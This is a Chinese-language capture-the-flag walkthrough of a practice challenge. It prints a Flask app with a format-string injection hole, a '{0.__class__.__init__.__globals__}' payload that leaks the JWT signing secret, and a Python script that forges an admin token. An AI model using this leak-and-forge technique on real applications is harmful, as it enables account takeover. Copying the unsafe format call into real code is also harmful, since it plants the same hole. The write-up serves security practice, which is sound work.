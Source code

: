 ### [MoeCTF 2021]地狱通讯-改

>ssti,jwt

先读代码：

```python

from flask import Flask, render_template, request, session, redirect, make_response
from secret import secret, headers, User
import datetime
import jwt
app = Flask(__name__)

@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    res = make_response(ctx)
    name = request.args.get('name') or ''
    if 'admin' in name or name == '':
        return res
    payload = {
        "name": name,
    }
    token = jwt.encode(payload, secret, algorithm='HS256', headers=headers)
    res.set_cookie('token', token)
    return res


@app.route('/hello', methods=['GET', 'POST'])
def hello():
    token = request.cookies.get('token')
    if not token:
        return redirect('/', 302)
    try:
        name = jwt.decode(token, secret, algorithms=['HS256'])['name']
    except jwt.exceptions.InvalidSignatureError as e:
        return "Invalid token"
    if name != "admin":
        user = User(name)
        flag = request.args.get('flag') or ''
        message = "Hello {0}, your flag is" + flag
        return message.format(user)
    else:
        return render_template('flag.html', name=name)


if __name__ == "__main__":
    app.run()
```

有代码可以知道，我们需要经过jwt后，name=admin即可获得flag，第一步是去试一试能不能直接传admin，但是不行，我们随便弄一个用户名，然后访问/hello，发现ssti注入点，我们现在就是需要找到密钥，有了密钥，我们就能伪造jwt

> {0},所以我们让exp中也有一个{0}，这样就可以将值代入进去

```
http://node5.anna.nssctf.cn:29437/hello?flag={0.__class__.__init__.__globals__}
```

![image-20240926152308374](https://gitee.com/bx33661/image/raw/master/path/image-20240926152308374.png)

```
'secret': 'u_have_kn0w_what_f0rmat_i5'
```

修改值：

```python
import jwt

# 泄露的密钥
secret_key = "u_have_kn0w_what_f0rmat_i5"

# 载荷数据
payload = {
    "name": "admin"
}

# 生成JWT
new_token = jwt.encode(payload, secret_key, algorithm="HS256")
print("新生成的JWT:", new_token)
```

修改cookie访问/hello

得到flag

```
NSSCTF{d8c63844-ebec-4759-8f25-cc26f9c939c6}.
```

